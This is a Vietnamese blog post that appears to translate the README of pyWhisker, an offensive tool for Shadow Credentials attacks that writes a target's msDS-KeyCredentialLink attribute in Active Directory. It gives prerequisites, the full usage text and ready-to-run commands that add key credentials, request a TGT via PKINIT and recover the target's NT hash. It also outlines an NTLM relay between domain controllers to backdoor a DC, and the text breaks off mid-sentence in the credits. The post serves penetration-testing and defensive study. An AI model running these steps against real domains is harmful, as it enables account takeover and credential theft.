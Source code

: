```yaml
---
title: Công cụ pywhisker
date: 1/8/2021
layout: single
teaser: https://github.com/ShutdownRepo/pywhisker/blob/main/.assets/add_pem.png?raw=true
--- 
```


## Giới thiệu PyWhisker 
Tác giả: ShutdownRepo
Khai thác [github/ShutdownRepo/pywhiske](https://github.com/ShutdownRepo/pywhisker)

PyWhisker là một Python tương đương với [Whisker](https://github.com/eladshamir/Whisker) gốc do [Elad Shamir](https://twitter.com/elad_shamir) tạo ra và được viết bằng C#. Công cụ này cho phép người dùng thao tác thuộc tính `msDS-KeyCredentialLink` của người dùng / máy tính mục tiêu để có toàn quyền kiểm soát đối tượng đó. Nó dựa trên [Impacket](https://github.com/SecureAuthCorp/impacket) và trên Python tương đương với DSInternals của [Michael Grafnetter](https://twitter.com/MGrafnetter) được gọi là [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Công cụ này, cùng với [PKINITtools](https://github.com/dirkjanm/PKINITtools) của [Dirk-jan](https://twitter.com/_dirkjan) cho phép khai thác hoàn toàn nguyên thủy chỉ trên các hệ thống dựa trên UNIX.

Điều kiện tiên quyết cho cuộc tấn công này như sau

1. Mức chức năng miền mục tiêu phải là Windows Server 2016 trở lên.
2. Miền đích phải có ít nhất một Bộ điều khiển miền chạy Windows Server 2016 trở lên.
3. Bộ điều khiển miền để sử dụng trong cuộc tấn công phải có chứng chỉ và khóa riêng (điều này có nghĩa là tổ chức phải có AD CS hoặc PKI, CA hoặc thứ gì đó tương tự).
4. Kẻ tấn công phải có quyền kiểm soát tài khoản có thể ghi thuộc tính msDs-KeyCredentialLink của tài khoản máy tính hoặc người dùng mục tiêu

Tại sao một số yêu cầu trước?

+ Yêu cầu trước 1 và 2 vì các tính năng PKINIT đã được giới thiệu với Windows Server 2016
+ Yêu cầu trước 3 vì DC cần chứng chỉ và khóa của riêng nó để trao đổi khóa phiên trong giao dịch `AS_REQ <-> AS_REP`.
A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` sẽ được nâng lên nếu yêu cầu trước 3 không được đáp ứng.

Thông tin thêm về Shadow Credentials này
+ [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
+ [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
+ [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

## Sử dụng
pyWhisker hỗ trợ các xác thực sau

+ (NTLM) Cleartext password
+ (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
+ (Kerberos) Cleartext password
+ (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
+ (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Trong số những thứ khác, pyWhisker hỗ trợ nhiều cấp độ chi tiết, chỉ cần thêm `-v`,`-vv`
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

```powershell
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove

```
Dưới đây là các ví dụ và ảnh chụp màn hình về những gì PyWhisker có thể làm

## Liệt kê và nhận thông tin
PyWhisker có khả năng liệt kê các KeyCredentials hiện có. Ngoài ra, nó có thể mở toàn bộ cấu trúc để hiển thị mọi phần thông tin mà đối tượng chứa (bao gồm cả các tham số khóa công khai RSA)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![1](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/list_info.png)

## Clear and remove
PyWhisker có khả năng xóa các giá trị cụ thể hoặc xóa toàn bộ thuộc tính.
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![2](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/remove.png)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![3](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/clear.png)

## Thêm giá trị mới
PyWhisker có khả năng tạo khóa RSA, chứng chỉ X509, cấu trúc KeyCredential và ghi thông tin cần thiết dưới dạng giá trị mới của thuộc tính `msDs-KeyCredentialLink`. Chứng chỉ có thể được xuất ở định dạng PFX (# PKCS12, khóa riêng của chứng chỉ được bảo vệ bằng mật khẩu) hoặc ở định dạng PEM (chứng chỉ PEM, khóa riêng PEM, không cần mật khẩu).

## Ví dụ với định dạng PFX
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![4](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). Băm NT sau đó có thể được khôi phục bằng [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![5](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx_gettgtnthash.png)

## Ví dụ với định dạng PEM
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```

![6](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với `gettgtpkinit.py1`. Băm NT sau đó có thể được khôi phục bằng `getnthash.py`.

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![7](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem_gettgtnthash.png)

## Xác thực chuyển tiếp
[Yêu cầu](https://github.com/SecureAuthCorp/impacket/pull/1132) hiện đang chờ phê duyệt để đưa tính năng "thêm" của pywhisker vào ntlmrelayx

![8](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/relay.png)

## Kiến thức hữu ích
Đối tượng người dùng không thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng họ. Các đối tượng máy tính có thể. Điều này có nghĩa là tình huống sau có thể hoạt động: kích hoạt xác thực NTLM từ DC01, chuyển tiếp nó đến DC02, khiến pywhisker chỉnh sửa thuộc tính của DC01 để tạo cửa sau xác thực trước Kerberos PKINIT trên đó

![9](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/user_cant_self_edit.png)

Các đối tượng máy tính có thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng chúng nhưng chỉ có thể thêm KeyCredential nếu chưa có

![10](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/computers_can_self_edit.png)

Nếu bạn gặp lỗi, hãy đảm bảo không có sự chênh lệch về thời gian giữa máy chủ lưu trữ kẻ tấn công của bạn và Trung tâm phân phối khóa (thường là Bộ điều khiển miền). Để tránh lỗi đó, các chứng chỉ được tạo bởi công cụ pyWhisker có giá trị 40 năm trước ngày hiện tại và 40 năm sau.

## Tín dụng và tài liệu tham khảo
+ Tín dụng cho [Dirk-jan](https://twitter.com/_dirkjan) vì công việc của anh ấy trên [PKINITtools](https://github.com/dirkjanm/PKINITtools/). Ban đầu, chúng tôi đã lên kế hoạch tái cấu trúc các tập lệnh Impacket (đặc biệt là [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) để triển khai xác thực trước PKINIT không đối xứng cho Kerberos. Anh ấy đã cứu chúng tôi rất nhiều đau đầu bằng cách viết nó trước chúng tôi!
+ Tín dụng cho toàn bộ nhóm đằng sau [Impacket](https://github.com/SecureAuthCorp/impacket/) và những người đóng góp của nó.
+ Tín dụng cho [Elad Shamir](https://twitter.com/elad_shamir), người đã tạo ra công cụ C # ban đầu ([Whisker](https://github.com/eladshamir/Whisker)) và cho [Michael Grafnetter's](https://twitter.com/MGrafnetter), người đã tạo ra [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), một thư viện thực hiện hầu hết các công việc nặng nhọc của Whisker. Anh ấy cũng là người đã thực hiện bản demo đầu tiên của Mũ đen trình bày về đòn tấn công 